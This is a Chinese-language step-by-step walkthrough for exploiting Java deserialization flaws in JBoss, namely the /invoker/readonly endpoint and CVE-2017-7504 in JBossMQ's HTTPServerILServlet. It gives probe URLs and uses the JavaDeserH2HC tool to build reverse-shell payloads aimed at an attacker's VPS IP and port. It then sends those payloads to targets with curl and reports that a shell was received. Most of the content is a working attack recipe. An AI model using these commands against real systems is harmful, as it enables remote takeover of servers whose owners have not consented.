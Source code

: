 1、首先从http响应头和title中一般情况下都能看到信息来确定目标 jboss 版本是否在此漏洞版本范围

![image.png](jboss_getshell.assets/1592147063_5ee63c77b3787.png!small)

2、确定目标的 jboss 是否存在此漏洞,直接访问 `poc url: http://192.168.3.81:8080/invoker/readonly` 如果出现报 500 错误,则说明目标机器可能存在此漏洞

![image.png](jboss_getshell.assets/1592147076_5ee63c84e4f89.png!small)

3、明确目标`jboss`可能存在此漏洞以后,接下来借助`JavaDeserH2HC`来完成整个利用过程

```
git clone https://github.com/joaomatosf/JavaDeserH2HC.git 
cd JavaDeserH2HC/
```

4、首先尝试直接反弹`shell`,利用`JavaDeserH2HC`创建好用于反弹`shell`的 payload,如下

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap vps的ip:端口 
```

4、然后尝试利用`curl`发送`payload`到目标机器上执行后，发现vps已成功接弹回的shell

```
curl http://www.target.net/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image.png](jboss_getshell.assets/1592147096_5ee63c98aa9aa.png!small)

### JBOSSMQ JMS 集群反序列化漏洞（CVE-2017-7504）

#### 漏洞描述

`JBoss AS 4.x`及之前版本中，`JbossMQ`实现过程的`JMS over HTTP Invocation Layer`的`HTTPServerILServlet.java`⽂件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利⽤该漏洞执⾏任意代码。

#### 影响版本

`JBoss AS 4.x`及之前版本

#### 漏洞利用

1、首先验证目标`jboss`是否存在此漏洞,直接访问 

```
poc url : http://10.211.55.7:8080/jbossmq-httpil/HTTPServerILServlet/
```

2、如果返回以下内容,则说明目标的`jboss`可能存在此漏洞,而后继续尝试进一步利用即可
![image.png](jboss_getshell.assets/1592147108_5ee63ca4aae28.png!small)3、此处我们使用`JavaDeserH2HC`工具来利用该漏洞,尝试直接弹回一个目标系统的原生 `cmd shell`

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 10.211.55.16:53
curl http://10.211.55.7:8080/jbossmq-httpil/HTTPServerILServlet/ --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```
